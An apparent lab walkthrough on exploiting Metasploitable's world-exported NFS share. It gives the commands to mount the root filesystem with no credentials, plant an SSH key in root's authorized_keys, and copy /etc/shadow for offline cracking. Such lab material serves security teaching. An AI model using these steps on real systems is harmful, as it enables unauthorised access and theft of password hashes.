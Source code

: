 
# Metasploitable/NFS
#### Contents
```
    1 Network File System
        1.1 Abusing
        1.2 Dismount When Finished
    2 Flags
```

#### Network File System

The Metasploitable virtual machine has some network file system ports open, making it wide-open to attacks. (More info on network file systems generally at Linux/NFS)

The Metasploitable machine is at 10.0.0.27.

Start by checking out what network services are running - use the rpcinfo command to do that:
```
# rpcinfo -p 10.0.0.27
```
This will return information about open ports and RPC services. We can see that there is an NFS service listening on port 2049:
  ```
root@morpheus:~# rpcinfo -p 10.0.0.27
   program vers proto   port  service
    100000    2   tcp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  38085  status
    100024    1   tcp  52004  status
    100003    2   udp   2049  nfs
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100021    1   udp  60702  nlockmgr
    100021    3   udp  60702  nlockmgr
    100021    4   udp  60702  nlockmgr
    100003    2   tcp   2049  nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100021    1   tcp  34385  nlockmgr
    100021    3   tcp  34385  nlockmgr
    100021    4   tcp  34385  nlockmgr
    100005    1   udp  45599  mountd
    100005    1   tcp  42810  mountd
    100005    2   udp  45599  mountd
    100005    2   tcp  42810  mountd
    100005    3   udp  45599  mountd
    100005    3   tcp  42810  mountd
```
Now use the showmount command to show what file systems are mountable on this NFS:
```
root@morpheus:~# showmount -e 10.0.0.27
Export list for 10.0.0.27:
/ *
```
##### Woot - the entire filesystem is mountable/writable!

#### To mount the network filesystem, we need to run the RPC service rpcbind:
```
service rpcbind start
```
Now we can mount the filesystem at the IP address, with no credentials:
```
# mkdir /tmp/r00t
# mount -t nfs 10.0.0.27:/ /tmp/r00t
```
### Abusing

Now we can abuse our write access to the filesystem by copying an SSH key into the remote machine's trusted SSH keys, and obtain passwordless remote access:
```
# cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys
```
We can copy the shadow file to the local disk to crack with John the Ripper:
```
# cp /tmp/r00t/etc/shadow ~/victim_shadow_file
```
We could also use the Metasploit post modules, for information-gathering on Linux machines.
Dismount When Finished

Dismount when finished to make sure all those goodies you left behind actually end up being written to the disk:
```
# umount /tmp/r00t
```
